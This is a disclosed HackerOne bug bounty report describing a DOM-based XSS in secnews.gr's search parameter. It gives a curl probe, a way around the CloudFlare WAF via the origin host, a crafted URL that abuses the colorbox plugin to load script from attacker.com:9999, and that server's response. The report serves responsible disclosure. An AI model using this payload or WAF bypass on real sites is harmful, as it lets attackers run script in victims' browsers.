 # DOM based XSS in search functionality

## Report Details
- **Report ID**: 168165
- **URL**: https://hackerone.com/reports/168165
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-09-13T22:48:38.697Z
- **Disclosed**: 2016-11-16T19:07:23.280Z

## Reporter
- **Username**: sameoldstory
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: secnews

## Vulnerability Information
Overview
===
Search query is inserted into the HTML of the page without proper encoding. Specifically, a single-quote is not html-encoded (albeit escaped, even twice), which allows the attacker to break out of the HTML attribute and inject arbitrary tags.

```html
curl -s 'https://www.secnews.gr?s=%27%3E%3Ctest%3E%3C' | egrep -o ".{47}?<test>.*?>"
<div id="content" data-currentquery='{"s":"\\'><test><"}' class="main-content articles list sidebar-right    non-full">
```

Impediments
===
Although aformentioned injection point can be used to carry out XSS attacks, there is a couple of complications.

1. The website is protected by the CloudFlare WAF which blocks any suspicious requests. This can be circumvented though by instead targeting `secnews.wpengine.com`.
2. The website has `X-XSS-Protection` header set which enables very powerful XSS Auditor in Google Chrome.
3. The potential victim is administrator on a web security website. They are likely to have some kind of an XSS protection plugin installed in their browser.

Solution
===
One of the javascript plugins (colorbox) used by the website has a code path that inserts response from arbitrary URL into DOM tree. It allows the attacker to go from regular XSS to DOM based XSS that anti-XSS tools are not able to detect.

See a proof-of-concept video: F119742

1. The attacker lures the victim to visit this link:
    ```
    https://www.secnews.gr/?s=%27%20class%3Dcolorbox%20href=/attacker.com:9999%3E
    ```

2. To any incoming requests the server at `attacker.com:9999` responds with:
    ```
    HTTP/1.1 200 OK
    content-length: 39
    access-control-allow-origin: *
    access-control-allow-headers: x-requested-with
    
    <script>alert(document.domain)</script>
    ```

3. The victim clicks anywhere below the navigation bar.
4. Malicious script gets downloaded and executed.

Security Implications
===
Although this exploit requires the victim to click, I'm confident (and hope you are too) that it's only a question of time and effort to find a code path that executes injected script without user interaction.

You mention in the policy that you don't consider any XSS significant enough for bounty. Although I think that you underestimate the power of XSS, it's your call and I've had a lot of fun anyway.





## Attachments
- secnews-xss.m4v

